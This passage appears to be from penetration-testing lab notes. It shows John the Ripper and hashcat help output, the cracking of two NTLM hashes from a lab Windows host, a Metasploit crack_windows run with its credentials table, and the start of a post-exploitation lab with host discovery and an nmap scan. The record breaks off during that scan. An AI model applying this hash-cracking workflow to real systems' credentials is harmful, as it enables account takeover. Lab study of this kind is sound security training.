--loopback[=FILE]          Like --wordlist, but extract words from a .pot file
--mem-file-size=SIZE       Size threshold for wordlist preload (default 2048 MB)
--dupe-suppression         Suppress all dupes in wordlist (and force preload)
--incremental[=MODE]       "Incremental" mode [using section MODE]
--incremental-charcount=N  Override CharCount for incremental mode
--external=MODE            External mode or word filter
--mask[=MASK]              Mask mode using MASK (or default from john.conf)
--markov[=OPTIONS]         "Markov" mode (see doc/MARKOV)
--mkv-stats=FILE           "Markov" stats file
--prince[=FILE]            PRINCE mode, read words from FILE
--prince-loopback[=FILE]   Fetch words from a .pot file
--prince-elem-cnt-min=N    Minimum number of elements per chain (1)
--prince-elem-cnt-max=[-]N Maximum number of elements per chain (negative N is
                           relative to word length) (8)
--prince-skip=N            Initial skip
--prince-limit=N           Limit number of candidates generated
--prince-wl-dist-len       Calculate length distribution from wordlist
--prince-wl-max=N          Load only N words from input wordlist
--prince-case-permute      Permute case of first letter
--prince-mmap              Memory-map infile (not available with case permute)
--prince-keyspace          Just show total keyspace that would be produced
                           (disregarding skip and limit)
--subsets[=CHARSET]        "Subsets" mode (see doc/SUBSETS)
--subsets-required=N       The N first characters of "subsets" charset are
                           the "required set"
--subsets-min-diff=N       Minimum unique characters in subset
--subsets-max-diff=[-]N    Maximum unique characters in subset (negative N is
                           relative to word length)
--subsets-prefer-short     Prefer shorter candidates over smaller subsets
--subsets-prefer-small     Prefer smaller subsets over shorter candidates
--make-charset=FILE        Make a charset, FILE will be overwritten
--stdout[=LENGTH]          Just output candidate passwords [cut at LENGTH]
--session=NAME             Give a new session the NAME
--status[=NAME]            Print status of a session [called NAME]
--restore[=NAME]           Restore an interrupted session [called NAME]
--[no-]crack-status        Emit a status line whenever a password is cracked
--progress-every=N         Emit a status line every N seconds
--show[=left]              Show cracked passwords [if =left, then uncracked]
--show=formats             Show information about hashes in a file (JSON)
--show=invalid             Show lines that are not valid for selected format(s)
--test[=TIME]              Run tests and benchmarks for TIME seconds each
                           (if TIME is explicitly 0, test w/o benchmark)
--stress-test[=TIME]       Loop self tests forever
--test-full=LEVEL          Run more thorough self-tests
--no-mask                  Used with --test for alternate benchmark w/o mask
--skip-self-tests          Skip self tests
--users=[-]LOGIN|UID[,..]  [Do not] load this (these) user(s) only
--groups=[-]GID[,..]       Load users [not] of this (these) group(s) only
--shells=[-]SHELL[,..]     Load users with[out] this (these) shell(s) only
--salts=[-]COUNT[:MAX]     Load salts with[out] COUNT [to MAX] hashes, or
--salts=#M[-N]             Load M [to N] most populated salts
--costs=[-]C[:M][,...]     Load salts with[out] cost value Cn [to Mn]. For
                           tunable cost parameters, see doc/OPTIONS
--fork=N                   Fork N processes
--node=MIN[-MAX]/TOTAL     This node's number range out of TOTAL count
--save-memory=LEVEL        Enable memory saving, at LEVEL 1..3
--log-stderr               Log to screen instead of file
--verbosity=N              Change verbosity (1-5 or 6 for debug, default 3)
--no-log                   Disables creation and writing to john.log file
--bare-always-valid=Y      Treat bare hashes as valid (Y/N)
--catch-up=NAME            Catch up with existing (paused) session NAME
--config=FILE              Use FILE instead of john.conf or john.ini
--encoding=NAME            Input encoding (eg. UTF-8, ISO-8859-1). See also
                           doc/ENCODINGS.
--input-encoding=NAME      Input encoding (alias for --encoding)
--internal-codepage=NAME   Codepage used in rules/masks (see doc/ENCODINGS)
--target-encoding=NAME     Output encoding (used by format)
--force-tty                Set up terminal for reading keystrokes even if we're
                           not the foreground process
--field-separator-char=C   Use 'C' instead of the ':' in input and pot files
--[no-]keep-guessing       Try finding plaintext collisions
--list=WHAT                List capabilities, see --list=help or doc/OPTIONS
--length=N                 Shortcut for --min-len=N --max-len=N
--min-length=N             Request a minimum candidate length in bytes
--max-length=N             Request a maximum candidate length in bytes
--max-candidates=[-]N      Gracefully exit after this many candidates tried.
                           (if negative, reset count on each crack)
--max-run-time=[-]N        Gracefully exit after this many seconds (if negative,
                           reset timer on each crack)
--mkpc=N                   Request a lower max. keys per crypt
--no-loader-dupecheck      Disable the dupe checking when loading hashes
--pot=NAME                 Pot file to use
--regen-lost-salts=N       Brute force unknown salts (see doc/OPTIONS)
--reject-printable         Reject printable binaries
--tune=HOW                 Tuning options (auto/report/N)
--subformat=FORMAT         Pick a benchmark format for --format=crypt
--format=[NAME|CLASS][,..] Force hash of type NAME. The supported formats can
                           be seen with --list=formats and --list=subformats.
                           See also doc/OPTIONS for more advanced selection of
                           format(s), including using classes and wildcards.
```

`john --list=formats`:
```
descrypt, bsdicrypt, md5crypt, md5crypt-long, bcrypt, scrypt, LM, AFS, 
tripcode, AndroidBackup, adxcrypt, agilekeychain, aix-ssha1, aix-ssha256, 
aix-ssha512, andOTP, ansible, argon2, as400-des, as400-ssha1, asa-md5, 
AxCrypt, AzureAD, BestCrypt, BestCryptVE4, bfegg, Bitcoin, BitLocker, 
bitshares, Bitwarden, BKS, Blackberry-ES10, WoWSRP, Blockchain, chap, 
Clipperz, cloudkeychain, dynamic_n, cq, CRC32, cryptoSafe, sha1crypt, 
sha256crypt, sha512crypt, Citrix_NS10, dahua, dashlane, diskcryptor, Django, 
django-scrypt, dmd5, dmg, dominosec, dominosec8, DPAPImk, dragonfly3-32, 
dragonfly3-64, dragonfly4-32, dragonfly4-64, Drupal7, eCryptfs, eigrp, 
electrum, EncFS, enpass, EPI, EPiServer, ethereum, fde, Fortigate256, 
Fortigate, FormSpring, FVDE, geli, gost, gpg, HAVAL-128-4, HAVAL-256-3, hdaa, 
hMailServer, hsrp, IKE, ipb2, itunes-backup, iwork, KeePass, keychain, 
keyring, keystore, known_hosts, krb4, krb5, krb5asrep, krb5pa-sha1, krb5tgs, 
krb5-17, krb5-18, krb5-3, kwallet, lp, lpcli, leet, lotus5, lotus85, LUKS, 
MD2, mdc2, MediaWiki, monero, money, MongoDB, scram, Mozilla, mscash, 
mscash2, MSCHAPv2, mschapv2-naive, krb5pa-md5, mssql, mssql05, mssql12, 
multibit, mysqlna, mysql-sha1, mysql, net-ah, nethalflm, netlm, netlmv2, 
net-md5, netntlmv2, netntlm, netntlm-naive, net-sha1, nk, notes, md5ns, 
nsec3, NT, o10glogon, o3logon, o5logon, ODF, Office, oldoffice, 
OpenBSD-SoftRAID, openssl-enc, oracle, oracle11, Oracle12C, osc, ospf, 
Padlock, Palshop, Panama, PBKDF2-HMAC-MD4, PBKDF2-HMAC-MD5, PBKDF2-HMAC-SHA1, 
PBKDF2-HMAC-SHA256, PBKDF2-HMAC-SHA512, PDF, PEM, pfx, pgpdisk, pgpsda, 
pgpwde, phpass, PHPS, PHPS2, pix-md5, PKZIP, po, postgres, PST, PuTTY, 
pwsafe, qnx, RACF, RACF-KDFAES, radius, RAdmin, RAKP, rar, RAR5, Raw-SHA512, 
Raw-Blake2, Raw-Keccak, Raw-Keccak-256, Raw-MD4, Raw-MD5, Raw-MD5u, Raw-SHA1, 
Raw-SHA1-AxCrypt, Raw-SHA1-Linkedin, Raw-SHA224, Raw-SHA256, Raw-SHA3, 
Raw-SHA384, restic, ripemd-128, ripemd-160, rsvp, RVARY, Siemens-S7, 
Salted-SHA1, SSHA512, sapb, sapg, saph, sappse, securezip, 7z, Signal, SIP, 
skein-256, skein-512, skey, SL3, Snefru-128, Snefru-256, LastPass, SNMP, 
solarwinds, SSH, sspr, Stribog-256, Stribog-512, STRIP, SunMD5, SybaseASE, 
Sybase-PROP, tacacs-plus, tcp-md5, telegram, tezos, Tiger, tc_aes_xts, 
tc_ripemd160, tc_ripemd160boot, tc_sha512, tc_whirlpool, vdi, OpenVMS, vmx, 
VNC, vtp, wbb3, whirlpool, whirlpool0, whirlpool1, wpapsk, wpapsk-pmk, 
xmpp-scram, xsha, xsha512, zed, ZIP, ZipMonster, plaintext, has-160, 
HMAC-MD5, HMAC-SHA1, HMAC-SHA224, HMAC-SHA256, HMAC-SHA384, HMAC-SHA512, 
dummy, crypt
416 formats (149 dynamic formats shown as just "dynamic_n" here) 
```

`john --list=formats | grep -i "nt"`:
```
416 formats (149 dynamic formats shown as just "dynamic_n" here)
net-md5, netntlmv2, netntlm, netntlm-naive, net-sha1, nk, notes, md5ns, 
nsec3, NT, ← o10glogon, o3logon, o5logon, ODF, Office, oldoffice, 
xmpp-scram, xsha, xsha512, zed, ZIP, ZipMonster, plaintext, has-160, 
```

`john --format=NT ./hashes.txt`:
```
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=48
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 8 candidates buffered for the current salt, minimum 24 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst ←
password1        (bob) ←
password         (Administrator) ←
2g 0:00:00:00 DONE 2/3 (2024-08-30 15:16) 100.0g/s 97300p/s 97300c/s 194600C/s 123456..knight
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
```

`hashcat --help`:
```
hashcat (v6.2.6) starting in help mode

Usage: hashcat [options]... hash|hashfile|hccapxfile [dictionary|mask|directory]...

- [ Options ] -

 Options Short / Long           | Type | Description                                          | Example
================================+======+======================================================+=======================
 -m, --hash-type                | Num  | Hash-type, references below (otherwise autodetect)   | -m 1000 ←
 -a, --attack-mode              | Num  | Attack-mode, see references below                    | -a 3 ←
 -V, --version                  |      | Print version                                        |
 -h, --help                     |      | Print help                                           |
     --quiet                    |      | Suppress output                                      |
     --hex-charset              |      | Assume charset is given in hex                       |
     --hex-salt                 |      | Assume salt is given in hex                          |
     --hex-wordlist             |      | Assume words in wordlist are given in hex            |
     --force                    |      | Ignore warnings                                      |
     --deprecated-check-disable |      | Enable deprecated plugins                            |
     --status                   |      | Enable automatic update of the status screen         |
     --status-json              |      | Enable JSON format for status output                 |
     --status-timer             | Num  | Sets seconds between status screen updates to X      | --status-timer=1
     --stdin-timeout-abort      | Num  | Abort if there is no input from stdin for X seconds  | --stdin-timeout-abort=300
     --machine-readable         |      | Display the status view in a machine-readable format |
     --keep-guessing            |      | Keep guessing the hash after it has been cracked     |
     --self-test-disable        |      | Disable self-test functionality on startup           |
     --loopback                 |      | Add new plains to induct directory                   |
     --markov-hcstat2           | File | Specify hcstat2 file to use                          | --markov-hcstat2=my.hcstat2
     --markov-disable           |      | Disables markov-chains, emulates classic brute-force |
     --markov-classic           |      | Enables classic markov-chains, no per-position       |
     --markov-inverse           |      | Enables inverse markov-chains, no per-position       |
 -t, --markov-threshold         | Num  | Threshold X when to stop accepting new markov-chains | -t 50
     --runtime                  | Num  | Abort session after X seconds of runtime             | --runtime=10
     --session                  | Str  | Define specific session name                         | --session=mysession
     --restore                  |      | Restore session from --session                       |
     --restore-disable          |      | Do not write restore file                            |
     --restore-file-path        | File | Specific path to restore file                        | --restore-file-path=x.restore
 -o, --outfile                  | File | Define outfile for recovered hash                    | -o outfile.txt
     --outfile-format           | Str  | Outfile format to use, separated with commas         | --outfile-format=1,3
     --outfile-autohex-disable  |      | Disable the use of $HEX[] in output plains           |
     --outfile-check-timer      | Num  | Sets seconds between outfile checks to X             | --outfile-check-timer=30
     --wordlist-autohex-disable |      | Disable the conversion of $HEX[] from the wordlist   |
 -p, --separator                | Char | Separator char for hashlists and outfile             | -p :
     --stdout                   |      | Do not crack a hash, instead print candidates only   |
     --show                     |      | Compare hashlist with potfile; show cracked hashes   |
     --left                     |      | Compare hashlist with potfile; show uncracked hashes |
     --username                 |      | Enable ignoring of usernames in hashfile             |
     --remove                   |      | Enable removal of hashes once they are cracked       |
     --remove-timer             | Num  | Update input hash file each X seconds                | --remove-timer=30
     --potfile-disable          |      | Do not write potfile                                 |
     --potfile-path             | File | Specific path to potfile                             | --potfile-path=my.pot
     --encoding-from            | Code | Force internal wordlist encoding from X              | --encoding-from=iso-8859-15
     --encoding-to              | Code | Force internal wordlist encoding to X                | --encoding-to=utf-32le
     --debug-mode               | Num  | Defines the debug mode (hybrid only by using rules)  | --debug-mode=4
     --debug-file               | File | Output file for debugging rules                      | --debug-file=good.log
     --induction-dir            | Dir  | Specify the induction directory to use for loopback  | --induction=inducts
     --outfile-check-dir        | Dir  | Specify the outfile directory to monitor for plains  | --outfile-check-dir=x
     --logfile-disable          |      | Disable the logfile                                  |
     --hccapx-message-pair      | Num  | Load only message pairs from hccapx matching X       | --hccapx-message-pair=2
     --nonce-error-corrections  | Num  | The BF size range to replace AP's nonce last bytes   | --nonce-error-corrections=16
     --keyboard-layout-mapping  | File | Keyboard layout mapping table for special hash-modes | --keyb=german.hckmap
     --truecrypt-keyfiles       | File | Keyfiles to use, separated with commas               | --truecrypt-keyf=x.png
     --veracrypt-keyfiles       | File | Keyfiles to use, separated with commas               | --veracrypt-keyf=x.txt
     --veracrypt-pim-start      | Num  | VeraCrypt personal iterations multiplier start       | --veracrypt-pim-start=450
     --veracrypt-pim-stop       | Num  | VeraCrypt personal iterations multiplier stop        | --veracrypt-pim-stop=500
 -b, --benchmark                |      | Run benchmark of selected hash-modes                 |
     --benchmark-all            |      | Run benchmark of all hash-modes (requires -b)        |
     --speed-only               |      | Return expected speed of the attack, then quit       |
     --progress-only            |      | Return ideal progress step size and time to process  |
 -c, --segment-size             | Num  | Sets size in MB to cache from the wordfile to X      | -c 32
     --bitmap-min               | Num  | Sets minimum bits allowed for bitmaps to X           | --bitmap-min=24
     --bitmap-max               | Num  | Sets maximum bits allowed for bitmaps to X           | --bitmap-max=24
     --cpu-affinity             | Str  | Locks to CPU devices, separated with commas          | --cpu-affinity=1,2,3
     --hook-threads             | Num  | Sets number of threads for a hook (per compute unit) | --hook-threads=8
     --hash-info                |      | Show information for each hash-mode                  |
     --example-hashes           |      | Alias of --hash-info                                 |
     --backend-ignore-cuda      |      | Do not try to open CUDA interface on startup         |
     --backend-ignore-hip       |      | Do not try to open HIP interface on startup          |
     --backend-ignore-metal     |      | Do not try to open Metal interface on startup        |
     --backend-ignore-opencl    |      | Do not try to open OpenCL interface on startup       |
 -I, --backend-info             |      | Show system/evironment/backend API info              | -I or -II
 -d, --backend-devices          | Str  | Backend devices to use, separated with commas        | -d 1
 -D, --opencl-device-types      | Str  | OpenCL device-types to use, separated with commas    | -D 1
 -O, --optimized-kernel-enable  |      | Enable optimized kernels (limits password length)    |
 -M, --multiply-accel-disable   |      | Disable multiply kernel-accel with processor count   |
 -w, --workload-profile         | Num  | Enable a specific workload profile, see pool below   | -w 3
 -n, --kernel-accel             | Num  | Manual workload tuning, set outerloop step size to X | -n 64
 -u, --kernel-loops             | Num  | Manual workload tuning, set innerloop step size to X | -u 256
 -T, --kernel-threads           | Num  | Manual workload tuning, set thread count to X        | -T 64
     --backend-vector-width     | Num  | Manually override backend vector-width to X          | --backend-vector=4
     --spin-damp                | Num  | Use CPU for device synchronization, in percent       | --spin-damp=10
     --hwmon-disable            |      | Disable temperature and fanspeed reads and triggers  |
     --hwmon-temp-abort         | Num  | Abort if temperature reaches X degrees Celsius       | --hwmon-temp-abort=100
     --scrypt-tmto              | Num  | Manually override TMTO value for scrypt to X         | --scrypt-tmto=3
 -s, --skip                     | Num  | Skip X words from the start                          | -s 1000000
 -l, --limit                    | Num  | Limit X words from the start + skipped words         | -l 1000000
     --keyspace                 |      | Show keyspace base:mod values and quit               |
 -j, --rule-left                | Rule | Single rule applied to each word from left wordlist  | -j 'c'
 -k, --rule-right               | Rule | Single rule applied to each word from right wordlist | -k '^-'
 -r, --rules-file               | File | Multiple rules applied to each word from wordlists   | -r rules/best64.rule
 -g, --generate-rules           | Num  | Generate X random rules                              | -g 10000
     --generate-rules-func-min  | Num  | Force min X functions per rule                       |
     --generate-rules-func-max  | Num  | Force max X functions per rule                       |
     --generate-rules-func-sel  | Str  | Pool of rule operators valid for random rule engine  | --generate-rules-func-sel=ioTlc
     --generate-rules-seed      | Num  | Force RNG seed set to X                              |
 -1, --custom-charset1          | CS   | User-defined charset ?1                              | -1 ?l?d?u
 -2, --custom-charset2          | CS   | User-defined charset ?2                              | -2 ?l?d?s
 -3, --custom-charset3          | CS   | User-defined charset ?3                              |
 -4, --custom-charset4          | CS   | User-defined charset ?4                              |
     --identify                 |      | Shows all supported algorithms for input hashes      | --identify my.hash
 -i, --increment                |      | Enable mask increment mode                           |
     --increment-min            | Num  | Start mask incrementing at X                         | --increment-min=4
     --increment-max            | Num  | Stop mask incrementing at X                          | --increment-max=8
 -S, --slow-candidates          |      | Enable slower (but advanced) candidate generators    |
     --brain-server             |      | Enable brain server                                  |
     --brain-server-timer       | Num  | Update the brain server dump each X seconds (min:60) | --brain-server-timer=300
 -z, --brain-client             |      | Enable brain client, activates -S                    |
     --brain-client-features    | Num  | Define brain client features, see below              | --brain-client-features=3
     --brain-host               | Str  | Brain server host (IP or domain)                     | --brain-host=127.0.0.1
     --brain-port               | Port | Brain server port                                    | --brain-port=13743
     --brain-password           | Str  | Brain server authentication password                 | --brain-password=bZfhCvGUSjRq
     --brain-session            | Hex  | Overrides automatically calculated brain session     | --brain-session=0x2ae611db
     --brain-session-whitelist  | Hex  | Allow given sessions only, separated with commas     | --brain-session-whitelist=0x2ae611db

- [ Hash modes ] -

      # | Name                                                       | Category
  ======+============================================================+======================================
    900 | MD4                                                        | Raw Hash
      0 | MD5                                                        | Raw Hash
    100 | SHA1                                                       | Raw Hash
   1300 | SHA2-224                                                   | Raw Hash
   1400 | SHA2-256                                                   | Raw Hash
  10800 | SHA2-384                                                   | Raw Hash
   1700 | SHA2-512                                                   | Raw Hash
  17300 | SHA3-224                                                   | Raw Hash
  17400 | SHA3-256                                                   | Raw Hash
  17500 | SHA3-384                                                   | Raw Hash
  17600 | SHA3-512                                                   | Raw Hash

[...]

 16500 | JWT (JSON Web Token)                                       | Network Protocol
  29200 | Radmin3                                                    | Network Protocol
  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
   5500 | NetNTLMv1 / NetNTLMv1+ESS                                  | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                             | Network Protocol
   5600 | NetNTLMv2                                                  | Network Protocol
  27100 | NetNTLMv2 (NT)                                             | Network Protocol
  29100 | Flask Session Cookie ($salt.$salt.$pass)                   | Network Protocol
   4800 | iSCSI CHAP authentication, MD5(CHAP)                       | Network Protocol
   8500 | RACF                                                       | Operating System
   6300 | AIX {smd5}                                                 | Operating System
   6700 | AIX {ssha1}                                                | Operating System
   6400 | AIX {ssha256}                                              | Operating System
   6500 | AIX {ssha512}                                              | Operating System
   3000 | LM                                                         | Operating System ←
  19000 | QNX /etc/shadow (MD5)                                      | Operating System
  19100 | QNX /etc/shadow (SHA256)                                   | Operating System
  19200 | QNX /etc/shadow (SHA512)                                   | Operating System
  15300 | DPAPI masterkey file v1 (context 1 and 2)                  | Operating System
  15310 | DPAPI masterkey file v1 (context 3)                        | Operating System
  15900 | DPAPI masterkey file v2 (context 1 and 2)                  | Operating System
  15910 | DPAPI masterkey file v2 (context 3)                        | Operating System
   7200 | GRUB 2                                                     | Operating System
  12800 | MS-AzureSync PBKDF2-HMAC-SHA256                            | Operating System
  12400 | BSDi Crypt, Extended DES                                   | Operating System
   1000 | NTLM                                                       | Operating System ←
  
[...]

- [ Brain Client Features ] -

  # | Features
 ===+========
  1 | Send hashed passwords
  2 | Send attack positions
  3 | Send hashed passwords and attack positions

- [ Outfile Formats ] -

  # | Format
 ===+========
  1 | hash[:salt]
  2 | plain
  3 | hex_plain
  4 | crack_pos
  5 | timestamp absolute
  6 | timestamp relative

- [ Rule Debugging Modes ] -

  # | Format
 ===+========
  1 | Finding-Rule
  2 | Original-Word
  3 | Original-Word:Finding-Rule
  4 | Original-Word:Finding-Rule:Processed-Word
  5 | Original-Word:Finding-Rule:Processed-Word:Wordlist

- [ Attack Modes ] -

  # | Mode
 ===+======
  0 | Straight ←
  1 | Combination
  3 | Brute-force
  6 | Hybrid Wordlist + Mask
  7 | Hybrid Mask + Wordlist
  9 | Association

- [ Built-in Charsets ] -

  ? | Charset
 ===+=========
  l | abcdefghijklmnopqrstuvwxyz [a-z]
  u | ABCDEFGHIJKLMNOPQRSTUVWXYZ [A-Z]
  d | 0123456789                 [0-9]
  h | 0123456789abcdef           [0-9a-f]
  H | 0123456789ABCDEF           [0-9A-F]
  s |  !"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
  a | ?l?u?d?s
  b | 0x00 - 0xff

- [ OpenCL Device Types ] -

  # | Device Type
 ===+=============
  1 | CPU
  2 | GPU
  3 | FPGA, DSP, Co-Processor

- [ Workload Profiles ] -

  # | Performance | Runtime | Power Consumption | Desktop Impact
 ===+=============+=========+===================+=================
  1 | Low         |   2 ms  | Low               | Minimal
  2 | Default     |  12 ms  | Economic          | Noticeable
  3 | High        |  96 ms  | High              | Unresponsive
  4 | Nightmare   | 480 ms  | Insane            | Headless

- [ License ] -

  hashcat is licensed under the MIT license
  Copyright and license terms are listed in docs/license.txt

- [ Basic Examples ] -

  Attack-          | Hash- |
  Mode             | Type  | Example command
 ==================+=======+==================================================================
  Wordlist         | $P$   | hashcat -a 0 -m 400 example400.hash example.dict
  Wordlist + Rules | MD5   | hashcat -a 0 -m 0 example0.hash example.dict -r rules/best64.rule
  Brute-Force      | MD5   | hashcat -a 3 -m 0 example0.hash ?a?a?a?a?a?a
  Combinator       | MD5   | hashcat -a 1 -m 0 example0.hash example.dict example.dict
  Association      | $1$   | hashcat -a 9 -m 500 example500.hash 1word.dict -r rules/best64.rule

If you still have no idea what just happened, try the following pages:

* https://hashcat.net/wiki/#howtos_videos_papers_articles_etc_in_the_wild
* https://hashcat.net/faq/

If you think you need help by a real human come to the hashcat Discord:

* https://hashcat.net/discord
```

`hashcat --help | grep "NT"`:
```
   5500 | NetNTLMv1 / NetNTLMv1+ESS                                  | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                             | Network Protocol
   5600 | NetNTLMv2                                                  | Network Protocol
  27100 | NetNTLMv2 (NT)                                             | Network Protocol
   1000 | NTLM ←                                                     | Operating System
```

`cut -d':' -f4 hashes.txt > nt_hashes.txt`

`cat ./nt_hashes.txt`:
```
8846f7eaee8fb117ad06bdd830b7586c
5835048ce94ad0564e29a924a03510ef
```

`hashcat -m 1000 ./nt_hashes.txt -a 0 /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`:
```
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-AMD EPYC 7642 48-Core Processor, 47215/94495 MB (16384 MB allocatable), 48MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 13 MB

Dictionary cache built:
* Filename..: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
* Passwords.: 1009
* Bytes.....: 7883
* Keyspace..: 1009
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.           

8846f7eaee8fb117ad06bdd830b7586c:password ←               
5835048ce94ad0564e29a924a03510ef:password1 ←              
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: ./nt_hashes.txt
Time.Started.....: Fri Aug 30 15:50:06 2024 (0 secs)
Time.Estimated...: Fri Aug 30 15:50:06 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    16478 H/s (0.36ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new)
Progress.........: 1009/1009 (100.00%)
Rejected.........: 0/1009 (0.00%)
Restore.Point....: 0/1009 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: admin -> vagrant

Started: Fri Aug 30 15:50:05 2024
Stopped: Fri Aug 30 15:50:08 2024
```

`msfconsole -q`

`search crack_windows`, `use auxiliary/analyze/crack_windows`, `show options`, `set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`, `set USE-CREDS true`, `run`:
```
[*] No lm found to crack
[*] No mscash found to crack
[*] No mscash2 found to crack
[*] No netntlm found to crack
[*] No netntlmv2 found to crack
[+] john Version Detected: 1.9.0-jumbo-1+bleeding-aec1328d6c 2021-11-02 10:45:52 +0100 OMP
[*] Wordlist file written out to /tmp/jtrtmp20240830-8394-wdgedx
[*] Checking nt hashes already cracked...
[*] Cracking nt hashes in single mode...
[*]    Cracking Command: /usr/sbin/john --session=rP9zP0yz --no-log --config=/usr/share/metasploit-framework/data/jtr/john.conf --pot=/root/.msf4/john.pot --format=nt --wordlist=/tmp/jtrtmp20240830-8394-wdgedx --rules=single /tmp/hashes_nt_20240830-8394-y6vyt2
Using default input encoding: UTF-8
Warning: no OpenMP support for this hash type, consider --fork=48
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
2g 0:00:00:00 DONE (2024-08-30 16:21) 200.0g/s 19200p/s 19200c/s 38400C/s admin..november ←
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
[*] Auxiliary module execution completed
```

`creds`:
```
Credentials
===========

host         origin       service        public         private                                                            realm  private_type  JtR Format  cracked_password
----         ------       -------        ------         -------                                                            -----  ------------  ----------  ----------------
10.4.20.107  10.4.20.107  445/tcp (smb)  Administrator  aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c         NTLM hash     nt,lm       password ←
10.4.20.107  10.4.20.107  445/tcp (smb)  bob            aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef         NTLM hash     nt,lm       password1 ←
```

### Windows Post-Exploitation: Black-Box Penetration Test (with Nmap, Metasploit, proxychains, xfreerdp)

#### Lab Environment

In this lab environment, the user will access a Kali GUI instance.
A vulnerable application can be accessed using the tools installed on Kali on `demo.ine.local` and `demo1.ine.local`.

**Objective:** Exploit both the target and find the flag!

The best tools for this lab are:
	- Nmap
	- Metasploit Framework
	- proxychains
	- xfreerdp

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.6  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:06  txqueuelen 0  (Ethernet)
        RX packets 933  bytes 94503 (92.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1300  bytes 1778176 (1.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.42.3  netmask 255.255.255.0  broadcast 10.10.42.255 ←
        ether 02:42:0a:0a:2a:03  txqueuelen 0  (Ethernet)
        RX packets 10  bytes 796 (796.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2433  bytes 17974947 (17.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2433  bytes 17974947 (17.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping -a -g 10.10.42.0/24 2> /dev/null`:
```
10.10.42.1
10.10.42.3
```

`cat /etc/hosts`:
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.1.0.6        INE
10.10.42.3      INE
127.0.0.1 AttackDefense-Kali
10.4.29.136    demo.ine.local ←
10.4.22.250    demo1.ine.local ←
```

`fping demo.ine.local demo1.ine.local`:
```
demo.ine.local is alive ←
demo1.ine.local is unreachable ←
```

`nmap -Pn -sS -sV -p- -T4 demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-31 22:15 IST
Nmap scan report for demo.ine.local (10.4.29.136)
Host is up (0.0089s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
